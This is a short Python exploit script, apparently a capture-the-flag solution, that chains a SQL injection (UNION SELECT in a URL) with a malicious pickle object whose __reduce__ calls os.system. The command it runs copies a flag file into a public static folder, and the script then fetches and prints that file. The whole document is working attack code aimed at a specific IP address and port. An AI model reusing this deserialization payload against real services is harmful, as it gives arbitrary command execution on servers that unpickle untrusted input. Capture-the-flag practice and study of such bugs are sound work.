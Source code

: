 import pickle
import base64
import os
import requests

# Payload to be executed on the server
payload = 'cp flag.txt application/static/achux21.txt'

# Class definition for creating a serialized payload using Pickle
class RCE:
    def __reduce__(self):
        return os.system, (payload,)

# If the script is run directly, not imported as a module
if __name__ == '__main__':
    # Serialize the payload using Pickle and encode it in base64
    var = base64.urlsafe_b64encode(pickle.dumps(RCE())).decode('ascii')

# Craft a URL to trigger the SQL injection vulnerability
# The UNION SELECT statement is used to inject the serialized payload
r = requests.get(f"http://167.99.82.136:30931/view/%27%20UNION%20SELECT%27{var}")

# Retrieve the result of the executed payload
flag = requests.get(f"http://167.99.82.136:30931/static/achux21.txt")

# Print the result (flag)
print(flag.text)
